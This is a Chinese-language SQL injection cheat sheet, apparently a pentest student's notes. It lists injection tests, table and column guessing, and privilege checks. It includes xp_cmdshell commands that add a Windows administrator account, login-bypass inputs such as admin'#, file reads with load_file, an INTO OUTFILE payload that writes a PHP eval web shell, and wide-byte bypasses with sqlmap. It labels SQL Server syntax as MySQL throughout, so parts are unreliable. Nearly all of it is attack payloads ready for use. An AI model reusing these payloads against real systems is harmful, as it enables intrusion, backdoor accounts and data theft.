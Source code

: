 # Mysql 服务、端口、后缀

重启服务，使其生效
命令 services.msc
TCP 0.0.0.0:1433 0.0.0.0:0 LISTENING

1433端口是开启的。当我们关闭服务后，端口也将关闭

后缀
cracer.mdf

日志文件后缀

cracer_log.ldf

## mysql数据库权限

sa权限：数据库操作，文件管理，命令执行，注册表读取等system
db权限：文件管理，数据库操作等 users-adminstrators
public权限：数据库操作 guest-users

## 注入语句

1. 判断是否有注入
and 1=1
and 1=2
/
-0
判断注入的方法是一样的

2. 初步判断是否是mysql
and user>0

3. 判断数据库系统
and (select count(*) from sysobjects)>0 mysql
and (select count(*) from msyobjects)>0 access

4. 注入参数是字符
'and [查询条件] and "='

5. 搜索时没过率参数的
'and [查询条件] and '%25'='

6. 猜数表名
and (select Count(*) from [表名])>0

7. 猜字段
and (select Count(字段名) from 表名)>0

8. 猜字段中记录长度
and (select top 1 len(字段名) from 表名)>0

9. 猜字段的ascii值（access）
and (select top 1 asc(mid(字段名,1,1)) from 表名)>0
猜字段的ascii值（mysql）
and (select top 1 unicode(substring(字段名,1,1)) from 表名)>0

10. 测试权限结构（mysql）
and 1=(select IS_SRVROLEMEMBER('sysadmin'));--
and 1=(select IS_SRVROLEMEMBER('serveradmin'));--
and 1=(select IS_SRVROLEMEMBER('setupadmin'));--
and 1=(select IS_SRVROLEMEMBER('securityadmin'));--
and 1=(select IS_SRVROLEMEMBER('diskadmin'));--
and 1=(select IS_SRVROLEMEMBER('bulkadmin'));--
and 1=(select IS_MEMBER('db_owner'));--

11. 添加mysql和系统的账户
exec master.dbo.sp_addlogin username;--
exec master.dbo.sp_password null,username,password;--
exec master.dbo.sp_addsrvrolemember sysadmin username;--
exec master.dbo.xp_cmdshell 'net user username password /workstations:* /times:all /passwordchg:yes /passwordreq:yes /active:yes /add';--
exec master.dbo.xp_cmdshell 'net user username password /add';--
exec master.dbo.xp_cmdshell 'net localgroup administrators username /add';--

### 注入点权限判断

and 1=(select is_srvrolemember('sysadmin')) //判断是否是系统管理员
and 1=(select is_srvrolemember('db_owner')) //判断是否是库权限
and 1=(select is_srvrolemember('public')) //判断是否是public权限
and 1=covert(int,db_name())或1=(select db_name())  //当前数据库名
and 1=(select @@servername)  //本地服务名
and 1=(select HAS_DBACCESS('master')) //判断是否有库读取权限

# 工具使用

穿山甲 萝卜头 sqlmap等

# mysql函数

# 防注入绕过

大小写绕过
%00编码绕过

## 判断注入

and 1=1 返回正常
and 1=2 返回不正常 存在注入点

## 判断多少列

order by xx
order by 21 正常 order by 22 不正常 说明长度为21

## mysql显错注入

## 后台绕过

select * from user where username=" and password="
输入：admin'#
select * from user where username='admin'#' and password="
输入：admin' or '1=1
select * from user where username='admin' or '1=1' and password="

## mysql读写函数的使用

load_file()函数
该函数是用来读取源文件的函数
只能读取绝对路径的网页文件
在使用load_file()时应先找到网站绝对路径
例如：
d:/www/xx/index.php
/usr/src/apache/htdoc/index.php
注意：
1. 路径符号"\"错误"\\"正确"/"正确
2. 转换十六进制数，就不要''

## 获取网站根路径

1. 报错显示
2. 谷歌黑客
site:目标网站 warning
3. 遗留文件 phpinfo info test php
4. 漏洞爆路径
5. 读取配置文件

## 写入函数 into outfile

and 1=2 union select 1,"<?php
@eval($_POST['cracer'];?)>",3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18 into outfile 'C:/netpub/wwwroot/mysql-sql/cracer.txt'

## 利用注入漏洞执行系统命令

## 魔术引号与宽字节注入

### 关于魔术引号注入

使用宽字节注入绕过魔术引号
%df%27
sqlmap.py -u "cracer.com/xx.php?id=1"
--risk 3 --dbms=mysql -p username --tamper unmagicquotes.py -v 3

